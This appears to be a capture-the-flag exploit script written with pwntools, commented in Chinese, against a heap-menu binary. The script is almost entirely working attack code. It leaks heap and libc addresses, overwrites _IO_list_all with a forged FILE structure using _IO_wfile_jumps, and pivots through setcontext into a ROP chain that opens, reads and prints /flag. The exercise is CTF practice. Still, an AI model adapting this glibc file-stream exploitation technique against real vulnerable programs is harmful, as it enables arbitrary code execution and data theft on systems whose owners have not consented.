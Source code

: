 ```python
#泄露heapbase
edit(0,b"A"*0x30)
show(0)
p.recvuntil("A"*0x30)
heap_addr = u64(p.recv(6).ljust(0x8,b"\x00")) - 0x2e90
#泄露libcbase，利用刚才的ck2
edit(0,b"A"*(0x70+0x440))
show(0)
libc.address = u64(p.recvuntil("\x7f")[-6:].ljust(0x8,b"\x00")) - 0x219ce0 - 0x1000
print(hex(heap_addr))
print(hex(libc.address))

#这里直接把ck1的date这个堆块修改为_IO_list_all
payload = b"A"*0x28 + p64(0x41) + p64(heap_addr + 0x2e90) + p64(0x2cf0+heap_addr) + p64(0x2b50+heap_addr) + p64(libc.sym['_IO_list_all']) + p64(0x4044800000000000) + p64(200)
edit(0,payload)
#_IO_list_all=0x3730+heap_addr
edit(1,p64(0x3730+heap_addr))
#再把ck1的date修改为heap_addr+0x3730,然后edit(1)就可以往heap_addr+0x3730处赋值
payload = b"A"*0x28 + p64(0x41) + p64(heap_addr + 0x2e90) + p64(0x2cf0+heap_addr) + p64(0x2b50+heap_addr) + p64(heap_addr+0x3730) + p64(0x4044800000000000) + p64(200)
edit(0,payload)

fake_io_addr = heap_addr + 0x3730
_IO_wfile_jumps = libc.sym["_IO_wfile_jumps"]
ROP_addr = heap_addr + 0x4000
ret = 0x000000000002a3e6 + libc.address
setcontext = libc.sym['setcontext']
pop_rdi = 0x000000000002a3e5 + libc.address
pop_rdx =  0x000000000011f2e7 + libc.address
pop_rsi = 0x000000000002be51 + libc.address

FP = fake_io_addr
A = FP + 0x100
B = A + 0xe0 - 0x60

payload = (0xa0-0x10)*b"\x00" + p64(A) # 
payload = payload.ljust(0xb0,b"\x00") + p64(1)
payload = payload.ljust(0xc8,b"\x00") + p64(_IO_wfile_jumps-0x40)
payload = payload.ljust(0x190,b"\x00") + p64(ROP_addr) + p64(ret)
payload = payload.ljust(0xf0+0xe0,b"\x00") + p64(B) + p64(setcontext + 61)
edit(1,p64(0)*2+payload) #修改heap_addr+0x3730构造IO链

#修改ck1的date为heap_addr+0x4000，布置ROP
payload = b"A"*0x28 + p64(0x41) + p64(heap_addr + 0x2e90) + p64(0x2cf0+heap_addr) + p64(0x2b50+heap_addr) + p64(heap_addr+0x4000) + p64(0x4044800000000000) + p64(200)
edit(0,payload)
payload = p64(pop_rdi) + p64(ROP_addr+0x100) + p64(pop_rdx) + p64(0)*2 + p64(pop_rsi) + p64(0) + p64(libc.sym['open'])
payload += p64(pop_rdi) + p64(3) + p64(pop_rdx) + p64(0x40) *2 + p64(pop_rsi) + p64(heap_addr+0x1000) + p64(libc.sym['read'])
payload += p64(pop_rdi) + p64(1) + p64(libc.sym['write'])
payload = payload.ljust(0x100,b"\x00") + b"/flag\x00"
edit(1,payload)

p.sendlineafter("Enter your choice >","6")

p.interactive()
```